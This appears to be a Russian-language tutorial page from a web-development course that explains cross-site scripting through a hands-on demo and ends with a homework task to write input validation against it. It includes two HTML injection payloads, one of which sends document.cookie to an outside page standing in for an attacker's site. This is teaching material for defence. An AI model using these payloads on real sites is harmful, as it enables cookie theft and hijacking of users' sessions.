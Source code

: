 # ![ico-30 study] XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
^^вместо "C" используется "X", чтобы не было путаницы с CSS^^

Внедренный код будет выполняться на компьютере пользователя
Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера

Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода

[![ico-20 link] Перейдите по ссылке](https://garevna.github.io/js-samples/#03)

Откройте **~Chrome DevTools~**

Установите точки останова (~breakpoints~) для того, чтобы пошагово отслеживать выполнение кода и вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IMG SRC="images/hack.png"
     onerror="document.write(String.fromCharCode(88, 83, 83))"/>
~~~

это довольно безобидная "атака", которая просто перезапишет содержимое ~body~

2. Скопируйте код ниже и вставьте его в поле ввода элемента ~input~:

~~~html
&lt;IFRAME SRC=js/attack.html
  onmouseover="window.open('https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self')">
</IFRAME>
~~~

^^с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем^^

Обратите внимание, что вместо ссылки ![ico-20 cap] ~https://garevna.github.io/js-samples/js/attack.html~

в реальной атаке будет ссылка на сайт (страницу) хакера

## ![ico-25 hw] Задание

В панели навигации откройте файл **~js/index03.js~**

Обратите внимание на функцию валидации ввода пользователя (**~testUserText~**)

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "_XSS атака отражена_" с указанием текущей даты и времени

__________________________________________________________

[![ico-20 link] securitylab](https://www.securitylab.ru/analytics/432835.php)
[![ico-20 link] websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)

